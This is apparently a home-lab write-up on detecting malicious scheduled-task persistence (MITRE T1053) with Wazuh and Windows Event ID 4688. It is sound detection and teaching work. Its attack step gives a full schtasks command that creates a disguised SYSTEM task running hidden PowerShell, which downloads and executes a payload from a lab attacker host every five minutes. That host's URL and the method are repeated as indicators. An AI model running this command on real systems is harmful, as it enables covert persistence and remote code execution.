



# Lab 07 — Scheduled Task Creation Detection (T1053)

## MITRE ATT&CK
- **Tactic:** Persistence
- **Technique:** T1053 — Scheduled Task/Job
- **Detection:** Windows Security Event ID 4688 (Process Creation)

---

## Objective

Simulate the creation of a malicious scheduled task via command line, a technique widely used by attackers to establish persistence after initial compromise, and detect the behavior through Wazuh SIEM.

---

## Lab Environment

| Machine | Role | IP |
|---|---|---|
| Kali Linux | Attacker / C2 Server | 192.168.56.104 |
| Windows 10 | Target | 192.168.56.103 |
| Wazuh Server | SIEM | — |

---

## Technical Background

After compromising a machine, attackers frequently create **scheduled tasks** to ensure their access is maintained even after reboots or removal of other mechanisms. This technique is classified by MITRE ATT&CK as T1053 and is widely used by APT groups and ransomware.

In this lab, the attacker:
1. Creates a scheduled task disguised with a legitimate-looking name (`WindowsUpdateHelper`)
2. The task executes a hidden PowerShell with an embedded download cradle pointing to the attacker's server
3. Wazuh captures Event ID 4688 with the full `commandLine` of the `schtasks.exe` process, exposing the entire persistence chain

Critical detection indicators:
- `schtasks.exe` process launched from `powershell.exe`
- `commandLine` containing `-ExecutionPolicy Bypass`, `-WindowStyle Hidden` and an external URL
- Task running as `SYSTEM` with a short execution interval

---

## Attack Walkthrough

### 1. Create the malicious Scheduled Task

On Windows 10, with PowerShell opened as Administrator:

```powershell
schtasks /create /tn "WindowsUpdateHelper" /tr "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command 'IEX(New-Object Net.WebClient).DownloadString(''http://192.168.56.104:8080/payload.txt'')'" /sc minute /mo 5 /ru SYSTEM
```

**Command breakdown:**

| Parameter | Value | Meaning |
|---|---|---|
| `/tn` | `WindowsUpdateHelper` | Name disguised as a legitimate process |
| `/tr` | `powershell.exe ...` | Hidden PowerShell with embedded download cradle |
| `/sc minute /mo 5` | Every 5 minutes | Continuous persistence |
| `/ru SYSTEM` | SYSTEM | Execution with maximum privilege |



---

### 2. Detection in Wazuh — Event ID 4688

In the Wazuh Dashboard, the event was located using the filter:

```
data.win.eventdata.commandLine: *WindowsUpdateHelper*
```

Wazuh returned **1 hit** — the `schtasks.exe` process created by agent `DESKTOP-8LF9GEI`, rule ID `67027`, at `Mar 20, 2026 @ 19:25:49`.



---

### 3. Event field analysis

With the event expanded in Wazuh, the fields confirm the full attack chain:

| Field | Value |
|---|---|
| `eventID` | `4688` |
| `newProcessName` | `C:\Windows\System32\schtasks.exe` |
| `parentProcessName` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| `commandLine` | Full command with `-ExecutionPolicy Bypass`, `-WindowStyle Hidden` and C2 URL |
| `subjectUserName` | `target` |
| `targetUserSid` | `S-1-0-0` |



---

## Indicators of Compromise (IOCs)

| Indicator | Value |
|---|---|
| Process | `schtasks.exe` |
| Parent process | `powershell.exe` |
| Task name | `WindowsUpdateHelper` |
| Suspicious flags | `-ExecutionPolicy Bypass -WindowStyle Hidden` |
| Method | `IEX(New-Object Net.WebClient).DownloadString()` |
| C2 | `http://192.168.56.104:8080/payload.txt` |
| Privilege | `SYSTEM` |
| Event ID | `4688` |

---

## What the SOC Should Look For

- `schtasks.exe` launched from `powershell.exe` or `cmd.exe`
- Scheduled task `commandLine` containing `powershell`, `IEX`, `DownloadString`, `WebClient` or external URLs
- Tasks created with `/ru SYSTEM` by non-administrative users
- Task names mimicking legitimate Windows processes (`WindowsUpdate*`, `Microsoft*`, `System*`)
- Very short execution intervals (`/sc minute`) combined with network commands

---

## Cleanup

```powershell
schtasks /delete /tn "WindowsUpdateHelper" /f
```

---

## File Structure

```
lab-07-scheduled-task-T1053/
├── README.md
└── images/
    ├── 01-schtasks-created.png
    ├── 02-wazuh-4688-schtasks.png
    └── 03-wazuh-event-details.png
```

---

## References

- [MITRE ATT&CK T1053 — Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/)
- [Windows Event ID 4688 — Process Creation](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4688)
- [Wazuh Documentation](https://documentation.wazuh.com)

---

## Tools & Technologies


---

## Connect
[](https://www.linkedin.com/in/moisesfpm/)

*Developed by Moises da Mata*
